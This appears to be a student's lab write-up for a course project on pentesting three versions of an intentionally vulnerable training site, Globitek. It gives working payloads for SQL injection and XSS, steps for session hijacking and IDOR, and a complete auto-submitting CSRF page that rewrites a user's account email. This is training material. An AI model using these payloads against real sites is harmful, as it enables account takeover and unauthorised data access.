 # Project 8 - Pentesting Live Targets

Time spent: **10** hours spent in total

> Objective: Identify vulnerabilities in three different versions of the Globitek website: blue, green, and red.

The six possible exploits are:
* Username Enumeration
* Insecure Direct Object Reference (IDOR)
* SQL Injection (SQLi)
* Cross-Site Scripting (XSS)
* Cross-Site Request Forgery (CSRF)
* Session Hijacking/Fixation

Each version of the site has been given two of the six vulnerabilities. (In other words, all six of the exploits should be assignable to one of the sites.)

## Blue

Vulnerability #1: 3. SQLI
  - GIF Walkthrough:
    - ![3](https://github.com/justinfchin/codepath_wk8/blob/master/gifs/3.gif?raw)
  - Details:
    - First go to a Salesperson. Then in the URL next to id=1 for eg. write ```' AND SLEEP(5)=0--' ```. 
      - Note: you could also replace AND with OR just be sure to remove the number next to id. 

---

Vulnerability #2: 6. Session Hijacking/Fixation
  - GIF Walkthrough:
    - ![6](https://github.com/justinfchin/codepath_wk8/blob/master/gifs/6.gif?raw)
  - Details:
    - Here we performed Session Hijacking.
    - Log into any color. Then get the sessionID.
    - Next go to the blue login and just change login.php to index.php to refresh and you will be signed in.

## Green

Vulnerability #1: 1. Username Enumeration
  - GIF Walkthrough:
    - ![1](https://github.com/justinfchin/codepath_wk8/blob/master/gifs/1.gif?raw)
  - Details:
    - Noticed when accidentally entered pperson / address combination wrong on the login page. Noticed that the error had different font style than corect username. 
    - First go to the login page. 
    - Looking at the **Inspect Elements** you can see that the span class was different (failed vs. failure). This resulted in the bolding of **Log in was unsuccessful** for valid usernames. Looking at the **Sources** section, we can see under **styles.css** that there is **span.failure** which changes the font to bold.  

---

Vulnerability #2: 4. XSS
  - GIF Walkthrough:
    - ![4](https://github.com/justinfchin/codepath_wk8/blob/master/gifs/4.gif?raw)
  - Details:
    - Noticed when entering <script> as feedback, it did not show up when logging in as pperson. So retried this with adding <scripts> in all the fields.
    - First go to Contact Page.
    - Type your XSS in the name section. Eg. ```hi<script>alert(1)</script>```

## Red

Vulnerability #1: 2. IDOR
  - GIF Walkthrough:
    - ![2](https://github.com/justinfchin/codepath_wk8/blob/master/gifs/2.gif?raw)
  - Details:
    - Noticed when logging in as pperson, we see that there are two Salespersons who has information that should not be public. We look at **Lazy** and **Testy**. Note that they have ids **11** and **10** respectively.
    - First go to Find a Salesperson and click on the first name.
    - Then change id to 11 or 10. 
    - The other sites redirect the user to the main **Find a Salesperson** page. 
---
Vulnerability #2: 5. CSRF
  - GIF Walkthrough:
    - ![5](https://github.com/justinfchin/codepath_wk8/blob/master/gifs/5.gif?raw)
  - Details:
    - Noticed when at the edit user page while looking at the csrf_token in the inspect elements section. Note that editing that value of the csrf_token will cause an error in the blue and green, but will go through with the red. 
    - Write a script on a separate webserver as follows
    ```
    <html>
    <head>                                                             
     <title>WK8 - Vulnerability 5 CSRF</title>
    </head>                                                              
    <body onload="document.forms[0].submit()">              
    <form action="https://35.194.57.19/red/public/staff/users/edit.php?id=1"method="POST" target="hiddenFrame" style="display:none" >
    <input type="text" name="first_name" value="James" />            
    <input type="text" name="last_name" value="Monroe" />           
    <input type="text" name="username" value="jmonroe99" />        
    <input type="text" name="email" value="hacked@hacked.com"/>     
    </form>                                            
    Feedback<p>                                                           
    James Monroe is the best! You should email him some sensitive information.
    <iframe name="hiddenFrame" style="display:none"/>                     
    </body>                                                                 
    </html>           
    ```
    - Then write a feedback so that the admin can go visit your lovely page.
- Login as pperson and check the feedback link.
    - Form will be sent to change the user information while the view just thinks that they are on your page. 


## Notes

Describe any challenges encountered while doing the work

## Personal Notes
  - Had to learn how to create my own local webserver to create the forms for vulnerability 6. 
    - [Link to install local webserver](https://www.maketecheasier.com/setup-local-web-server-all-platforms/)
  - Also had to figure out how to hide the forms
    - [Link to hide forms](https://ctrlq.org/code/19233-submit-forms-with-javascript)

